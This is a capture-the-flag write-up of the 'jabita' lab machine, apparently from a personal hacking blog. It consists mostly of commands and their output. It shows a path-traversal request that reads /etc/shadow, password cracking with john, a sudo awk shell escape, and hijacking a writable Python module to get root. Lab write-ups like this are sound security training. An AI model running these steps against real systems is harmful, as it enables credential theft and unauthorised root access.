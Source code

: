```yaml
---
layout: post
title:  "jabita"
date:   2022-09-09 10:00:00 +1000
category: hacking
---
```


GET /building/index.php?page=/etc/shadow HTTP/1.1

LOL

{% highlight shell %}
┌──(root💀kali)-[/opt/hmv/jabita]
└─# john hash -w=/usr/share/wordlists/rockyou.txt               
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
joaninha         (jack)     
1g 0:00:00:02 DONE (2022-09-09 07:16) 0.4347g/s 1669p/s 1669c/s 1669C/s energy..dodgers
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
{% endhighlight %}

{% highlight shell %}
┌──(root💀kali)-[/opt/hmv/jabita]
└─# ssh jack@10.10.10.123        
The authenticity of host '10.10.10.123 (10.10.10.123)' cant be established.
ED25519 key fingerprint is SHA256:Sxz30elYyqNibTrCsnd7Xa6CrZ6qllyKNc+LfOMtZSo.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.123' (ED25519) to the list of known hosts.
jack@10.10.10.123s password: 
Welcome to Ubuntu 22.04.1 LTS (GNU/Linux 5.15.0-47-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon Sep  5 01:40:05 PM UTC 2022

  System load:  0.4404296875      Processes:               111
  Usage of /:   51.4% of 9.75GB   Users logged in:         0
  Memory usage: 21%               IPv4 address for enp0s3: 192.163.0.112
  Swap usage:   0%


6 updates can be applied immediately.
3 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


Last login: Mon Sep  5 12:01:58 2022 from 192.163.0.90
jack@jabita:~$ sudo -l
Matching Defaults entries for jack on jabita:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty, listpw=never

User jack may run the following commands on jabita:
    (jaba : jaba) NOPASSWD: /usr/bin/awk
jack@jabita:~$ sudo -u jaba /usr/bin/awk 'BEGIN {system("/bin/sh")}'
$ id
uid=1002(jaba) gid=1002(jaba) groups=1002(jaba)
$ bash 
jaba@jabita:~$
{% endhighlight %}

{% highlight shell %}
jaba@jabita:/$ sudo -l
Matching Defaults entries for jaba on jabita:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty, listpw=never

User jaba may run the following commands on jabita:
    (root) NOPASSWD: /usr/bin/python3 /usr/bin/clean.py
jaba@jabita:/$ cat /usr/bin/clean.py
import wild

wild.first()
{% endhighlight %}

{% highlight shell %}
jaba@jabita:/$ cd /
jaba@jabita:/$ find . -name wild.py 2>/dev/null
./usr/lib/python3.10/wild.py
{% endhighlight %}

Let's see

{% highlight shell %}
jaba@jabita:/$ ls -lash /usr/lib/python3.10/ | grep wild
4.0K -rw-r--rw-  1 root root   29 Sep  5 12:48 wild.py
{% endhighlight %}

Write access

{% highlight shell %}
jaba@jabita:/$ printf 'import os;os.system("/bin/bash")\n' > /usr/lib/python3.10/wild.py
jaba@jabita:/$ sudo -u root /usr/bin/python3 /usr/bin/clean.py 
root@jabita:/# id
uid=0(root) gid=0(root) groups=0(root)
root@jabita:/#
{% endhighlight %}

